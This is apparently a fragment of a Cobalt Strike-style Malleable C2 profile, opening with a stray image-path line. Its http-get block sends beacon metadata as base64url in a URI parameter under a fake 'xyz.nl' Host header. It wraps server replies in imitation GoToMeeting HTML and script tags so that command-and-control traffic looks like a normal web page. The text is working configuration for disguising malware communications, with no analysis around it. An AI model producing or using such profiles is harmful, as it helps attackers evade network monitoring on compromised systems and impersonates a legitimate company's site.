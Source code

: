 }

http-get {

set uri "/functionalStatus/lxcWJc6U18y2fOPCAONUCgqtn ";


client {

        header "Host" "xyz.nl";
        header "Accept" "*/*";
        header "Accept-Language" "en-US";
        header "Connection" "close";

        metadata {
        base64url;
        parameter "_";

        }

}

server {

        output {

                base64url;

        prepend "content=";
        prepend "<meta name=\"google-site-verification\"\n";
        prepend "<meta name=\"viewport\" content=\"width=device-width, initial-scale=1\">\n";
        prepend "<meta http-equiv=\"X-UA-Compatible\" content=\"IE=edge\">\n";
        prepend "<link rel=\"canonical\" href=\"https://www.gotomeeting.com/b\">\n";
        prepend "<title>Online Meeting Software with HD Video Conferencing | GoToMeeting</title>\n";
        prepend "        <meta charset=\"UTF-8\">\n";
        prepend "    <head>\n";
        prepend "<html lang=\"en\">\n";
        prepend "<!DOCTYPE html>\n";

        append "\n<meta name=\"msvalidate.01\" content=\"63E628E67E6AD849F4185FA9AA7ABACA\">\n";
        append "<script type=\"text/javascript\">\n";
        append "  var _kiq = _kiq || [];\n";
        append "  (function(){\n";
        append "    setTimeout(function(){\n";
        append "    var d = document, f = d.getElementsByTagName('script')[0], s =\n";
        append "d.createElement('script'); s.type = 'text/javascript';\n";
        append "    s.async = true; s.src = '//s3.amazonaws.com/ki.js/66992/fWl.js';\n";
        append "f.parentNode.insertBefore(s, f);\n";
        append "    }, 1);\n";
        append "})();\n";
        append "</script>\n";
        append "</body>\n";
        append "</html>\n";
                print;
        }
}
}
